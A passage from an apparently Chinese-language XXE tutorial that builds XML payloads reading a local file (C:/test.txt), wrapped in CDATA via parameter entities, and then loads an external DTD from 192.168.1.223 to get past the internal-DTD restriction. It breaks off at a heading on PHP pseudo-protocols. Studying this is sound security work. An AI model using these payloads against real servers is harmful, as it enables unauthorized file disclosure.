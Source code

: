 说明我们不能在 xml 中进行拼接，而是需要在拼接以后再在 xml 中调用，那么要想在 DTD中拼接，我们知道我们只有一种选择，就是使用参数实体

#### (3)使用参数实体在内部DTD进行拼接:

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE user [
<!ENTITY % start "<![CDATA[">
<!ENTITY % xxe SYSTEM "file:///C:/test.txt">
<!ENTITY % end "]]>">
<!ENTITY all "%start;%xxe;%end;">
]>

<user><username>&all;</username><password>132123</password></user>
```
##### 效果:
![图片](https://ae01.alicdn.com/kf/Ue1e941620520453e86c3633fa4df321c2.jpg)

##### 还报错的原因:

```
根据XML规范所描述：“在DTD内部子集中的参数实体调用，不能混掺到标记语中”           

也就是说参数实体不能在内部DTD中进行拼接，但是XML规范还声明了一点：“外部参数实体不受此限制”，这就告诉我们可以使用外部的DTD来构造payload，将我们的CDATA内容拼接起来.
```
#### (4) 既然外部参数实体不受该限制,那:
```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE user [
<!ENTITY % start "<![CDATA[">
<!ENTITY % xxe SYSTEM "file:///C:/test.txt">
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://192.168.1.223/xxe.dtd">
%dtd;
]>

<user><username>&all;</username><password>132123</password></user>
```
##### xxe.dtd文件内容:
```
<!ENTITY all "%start;%xxe;%end;">
```
##### 效果:
![图片](https://ae01.alicdn.com/kf/U052aeaba96d54b00bd28fe4f6650d487D.jpg)

终于解决了!!!!!

### 3.使用php伪协议进行读取文件:
如果该网站是php语言编写的,那我们还可以使用php的一些伪协议进行读取:

##### 用到的伪协议:
